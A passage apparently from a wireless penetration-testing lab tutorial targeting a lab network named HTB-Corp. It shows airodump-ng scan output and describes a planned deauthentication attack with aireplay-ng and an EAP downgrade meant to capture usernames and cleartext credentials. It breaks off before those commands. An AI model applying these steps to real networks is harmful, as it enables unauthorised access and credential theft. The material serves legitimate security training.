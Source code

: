 ```shell
airodump-ng wlan0mon -c 1 -w WPA

 CH  1 ][ Elapsed: 6 s ][ 2024-08-23 09:47

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 9C:9A:03:39:BD:7A  -28 100       97        5    0   1   54   WPA2 CCMP   MGT  HTB-Corp

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 9C:9A:03:39:BD:7A  16:C5:68:79:A8:12  -29   12 -54      0        4

```

From the output above, we can see that the `HTB-Corp` Wi-Fi network is available with the BSSID `9C:9A:03:39:BD:7A`, and has a client connected to it with the MAC address `16:C5:68:79:A8:12`. Let's proceed with the downgrade attack to determine if we can obtain clear text credentials from this client.

If PMK caching is disabled on the access point (AP), we can perform a deauthentication attack on the client using `aireplay-ng` to capture a valid WPA handshake, which includes EAP packets. This allows us to identify the username.

```shell
